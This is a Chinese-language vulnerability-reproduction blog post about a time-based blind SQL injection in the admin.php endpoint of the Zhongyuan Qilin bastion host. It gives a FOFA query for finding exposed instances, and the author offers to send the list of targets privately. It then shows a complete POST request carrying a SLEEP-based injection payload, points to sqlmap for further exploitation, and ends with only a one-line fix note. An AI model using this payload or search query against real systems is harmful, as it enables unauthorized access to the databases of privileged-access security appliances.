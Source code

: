 # 原创
：  漏洞复现--中远麒麟堡垒机SQL注入

# 漏洞复现--中远麒麟堡垒机SQL注入

## 免责声明：

**文章中涉及的漏洞均已修复，敏感信息均已做打码处理，文章仅做经验分享用途，切勿当真，未授权的攻击属于非法行为！文章中敏感信息均已做多层打马处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任，一旦造成后果请自行承担！**

### 一：漏洞描述

麒麟堡垒机用于运维管理的认证、授权、审计等监控管理，在该产品admin.php处存在SQL 注入漏洞

### 二:漏洞影响版本

–中远麒麟堡垒机

### 三：网络空间测绘查询

fofa语句：<br/> cert.subject=“Baolei”<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/b6ec0d9bd603bdb5313e00d55342e98e.jpeg"/><br/> 需要下载的可后台私我我发你

### 四：漏洞复现

POC：

```
POST /admin.php?controller=admin_commonuser HTTP/1.1
Host: ip:port
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Connection: close
Content-Length: 78
Accept: */*
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

username=admin' AND (SELECT 12 FROM (SELECT(SLEEP(5)))ptGN) AND 'AAdm'='AAdm

```

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/8591386581fbc8f45063ac9c1cf1c329.jpeg"/><br/> 盲注5s<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/65b57faec97caf1f5278fe5908f86b1f.jpeg"/><br/> 漏洞存在，sqlmap直接利用<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/96ec70638d98995b17350449621a572d.jpeg"/><br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/bc2c69c1c71a9933dd28bec1ac925eec.jpeg"/>

### 五：修复方案

自行寻找厂家发布的安全补丁，若暂无补丁，尽快将系统放入内网。
